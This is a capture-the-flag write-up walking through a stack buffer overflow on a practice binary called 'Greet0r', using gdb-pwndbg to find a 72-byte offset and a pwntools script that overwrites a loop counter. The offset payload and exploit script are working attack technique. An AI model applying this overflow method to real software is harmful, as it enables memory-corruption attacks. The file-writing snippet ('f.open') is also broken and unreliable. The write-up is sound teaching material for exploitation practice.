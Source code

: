Enter `john` or any string you want. The program should hit another breakpoint at the compare function. The string you entered into the program should be seen in the `RSP` register, the `stack pointer`, which is where your stack resides.

![image](https://user-images.githubusercontent.com/83258849/147779018-71e74c08-c923-4d1c-9360-7778e6c28cd4.png)

We can examine the value in the `loopCount` variable by examining the address at `rbp-0x8`. Run the command `x $rbp-0x8` to examine the value at the address. It should show that it contains a value `4` as long as the user input is not too long.

![image](https://user-images.githubusercontent.com/83258849/147779219-4d1c8aa3-b3f4-41cd-a09f-208844eaa4a1.png)

Note the actual address of `rbp-0x8` during runtime (hex address at left side). In my case, it is `0x7fffffffe2f8`.

Now let's examine the values on the stack by running the command `x /40wx $rsp`. The first few hex values would contain the string that you have input into the program, in `little endian` format and in hex.

![image](https://user-images.githubusercontent.com/83258849/147779490-9f2ad751-2ecb-4417-9588-7529aac0d5bf.png)

Notice how the address of `loopCount` is in the stack? You can see from my example that the value `0x4` is at the address `0x7fffffffe2f8`, which is residing on the stack.

![stack](https://user-images.githubusercontent.com/83258849/147779765-c1965924-7753-42f5-a938-9a601564d3f0.png)

We can then count that we need `72` characters until we reach our `loopCount` value (1 character is 2 hex digits).

Let's try to test if this is correct. Print `72` characters, then overwrite it something we can identify. We can use "`BBBB`" as it is easily identifiable in hex as `0x42424242`. We can just use python for creating the test payload, run `python3 -c "print('A'*72 \+ 'B'*4)"`.

Run a new instance of `gdb-pwndbg` on the program, set break at main, copy the address at the `cmp` instruction, run the program, then break at the `cmp` instruction address copied (what we did above. Enter `c` to continue, then enter the payload when the program asks for user input.

Now check the value stored in `loopCount`, which is at `rbp-0x8`. Run the command `x $rbp-0x8`. The value at that address is overwritten with `0x42424242`, which is our `B`s!

![image](https://user-images.githubusercontent.com/83258849/147780995-ab42b828-123e-4490-a848-f68f1601117e.png)

Technically the flag is already printed, but it's hard to tell as there are many statements being printed. Let's try to overwrite the value in `loopCount` to only `6` so that our flag is printed.

Change the payload from `'A'*72\+'B'*4` to `'A'*72+'\x06\x00\x00\x00'`. This sets the value to only `6` as `0x06` is `6` in decimal, and the `\x06` is the first byte as the program would read the input in `little endian` format. Since we can't print and copy '`\x06\x00\x00\x00`', we need to send the raw output to a file. We can do this through python.
```python
f.open('payload.txt', 'wb')
f.write(b'A'*72+b'\x06\x00\x00\x00')
f.close()
```

We can use python's `pwntools` as well:
```python
from pwn import *

p = process('./Greet0r')

print(p.recv())
p.sendline(b'A'*72+b'\x06\x00\x00\x00')
print(p.recvall())
p.close()
```
